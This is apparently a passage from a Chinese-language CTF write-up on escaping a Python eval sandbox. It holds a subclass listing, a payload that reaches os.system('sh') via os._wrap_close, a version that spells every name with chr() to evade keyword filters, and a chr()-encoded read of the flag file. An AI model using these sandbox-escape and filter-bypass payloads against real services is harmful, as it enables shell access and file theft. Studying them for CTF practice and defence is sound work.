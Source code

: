 ```
Answer: [<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, <class 'ellipsis'>, <class 'enumerate'>, <class 'float'>, <class 'frame'>, <class 'frozenset'>, <class 'function'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'instancemethod'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'list'>, <class 'longrange_iterator'>, <class 'member_descriptor'>, <class 'memoryview'>, <class 'method_descriptor'>, <class 'method'>, <class 'moduledef'>, <class 'module'>, <class 'odict_iterator'>, <class 'pickle.PickleBuffer'>, <class 'property'>, <class 'range_iterator'>, <class 'range'>, <class 'reversed'>, <class 'symtable entry'>, <class 'iterator'>, <class 'set_iterator'>, <class 'set'>, <class 'slice'>, <class 'staticmethod'>, <class 'stderrprinter'>, <class 'super'>, <class 'traceback'>, <class 'tuple_iterator'>, <class 'tuple'>, <class 'str_iterator'>, <class 'str'>, <class 'wrapper_descriptor'>, <class 'types.GenericAlias'>, <class 'anext_awaitable'>, <class 'async_generator_asend'>, <class 'async_generator_athrow'>, <class 'async_generator_wrapped_value'>, <class 'coroutine_wrapper'>, <class 'InterpreterID'>, <class 'managedbuffer'>, <class 'method-wrapper'>, <class 'types.SimpleNamespace'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'weakref.CallableProxyType'>, <class 'weakref.ProxyType'>, <class 'weakref.ReferenceType'>, <class 'types.UnionType'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class 'hamt'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'keys'>, <class 'values'>, <class 'items'>, <class '_contextvars.Context'>, <class '_contextvars.ContextVar'>, <class '_contextvars.Token'>, <class 'Token.MISSING'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc._abc_data'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'collections.abc.Iterable'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>]

```
找到倒数第四个类是<class 'os._wrap_close'>，payload
```
().__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('sh')
```
绕过__init__和__globals__
```
getattr(getattr(getattr(getattr(().__class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()[-4],chr(95)+chr(95)+chr(105)+chr(110)+chr(105)+chr(116)+chr(95)+chr(95)),chr(95)+chr(95)+chr(103)+chr(108)+chr(111)+chr(98)+chr(97)+chr(108)+chr(115)+chr(95)+chr(95))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(115)+chr(104))
```
get shell
![039e102b0e9803da9a16d4bb19c96d67.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701776495542-20683258-0e02-47ad-9946-6d7428635e47.png#averageHue=%23242833&clientId=ufe48b559-574f-4&from=paste&height=446&id=ueb7c6aa7&originHeight=557&originWidth=636&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=146971&status=done&style=none&taskId=u295697c2-425a-4d2c-b0ba-c36beade68a&title=&width=509)
另解
当然这里因为eval出的结果是有回显的，所以我们也可以通过上面那个open('flag').read()的，但是得猜flag文件名
```
open(chr(102)+chr(108)+chr(97)+chr(103)).read()
```
![19380bdc8482864e2ef23f751e14e4c9.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1701776838603-57636b6d-a0fb-4895-a2e9-8e9c791df831.png#averageHue=%23262b38&clientId=ufe48b559-574f-4&from=paste&height=56&id=ua01fd847&originHeight=70&originWidth=488&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=16620&status=done&style=none&taskId=u5292311a-cb75-497b-9165-7c3fc285659&title=&width=390.4)